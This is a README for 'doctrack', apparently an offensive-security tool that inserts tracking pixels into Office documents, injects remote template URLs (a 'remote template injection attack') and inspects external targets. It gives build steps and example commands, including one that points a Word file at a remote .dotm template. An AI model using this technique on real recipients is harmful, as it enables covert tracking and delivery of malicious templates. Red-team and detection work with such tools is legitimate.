 ﻿# Doctrack
Tool to manipulate and insert tracking pixels into Office Open XML documents.
## Features
* Insert tracking pixels into Office Open XML documents (Word and Excel)
* Inject template URL for remote template injection attack
* Inspect external target URLs and metadata
* Create Office Open XML documents (#TODO)
## Installation
You will need to download [.Net Core SDK](https://dotnet.microsoft.com/download/) for your platform. Then, to build single binary on Windows:
```cmd
$ git clone https://github.com/wavvs/doctrack.git
$ cd doctrack/
$ dotnet publish -r win-x64 -c Release /p:PublishSingleFile=true
```
On Linux:
```bash
$ dotnet publish -r linux-x64 -c Release /p:PublishSingleFile=true
```
## Usage
```cmd
$ doctrack --help
Tool to manipulate and insert tracking pixels into Office Open XML documents.
Copyright (C) 2020 doctrack

  -i, --input         Input filename.
  -o, --output        Output filename.
  -m, --metadata      Metadata to supply (json file)
  -u, --url           URL to insert.
  -e, --template      (Default: false) If set, enables template URL injection.
  -t, --type          Document type. If --input is not specified, creates new
                      document and saves as --output.
  -l, --list-types    (Default: false) Lists available types for document
                      creation.
  -s, --inspect       (Default: false) Inspect external targets.
  --help              Display this help screen.
```
Available document types listed below. If you want to insert tracking URL just use either Document or Workbook types, 
other types listed here are only for document creation (#TODO).
```cmd
$ doctrack --list-types
Document              (*.docx)
MacroEnabledDocument  (*.docm)
MacroEnabledTemplate  (*.dotm)
Template              (*.dotx)
Workbook              (*.xlsx)
MacroEnabledWorkbook  (*.xlsm)
MacroEnabledTemplateX (*.xltm)
TemplateX             (*.xltx)
```
Insert tracking pixel and change document metadata:
```cmd
$ doctrack -t Document -i test.docx -o test.docx --metadata metadata.json --url http://test.url/image.png
```
Insert remote template URL (remote template injection attack), works only with Word documents:
```cmd
$ doctrack -t Document -i test.docx -o test.docx --url http://test.url/template.dotm --template
```
Inspect external target URLs and metadata:
```cmd
$ doctrack -t Document -i test.docx --inspect
[External targets]
Part: /word/document.xml, ID: R8783bc77406d476d, URI: http://test.url/image.png
Part: /word/settings.xml, ID: R33c36bdf400b44f6, URI: http://test.url/template.dotm
[Metadata]
Creator:
Title:
Subject:
Category:
Keywords:
Description:
ContentType:
ContentStatus:
Version:
Revision:
Created: 13.10.2020 23:20:39
Modified: 13.10.2020 23:20:39
LastModifiedBy:
LastPrinted: 13.10.2020 23:20:39
Language:
Identifier:
```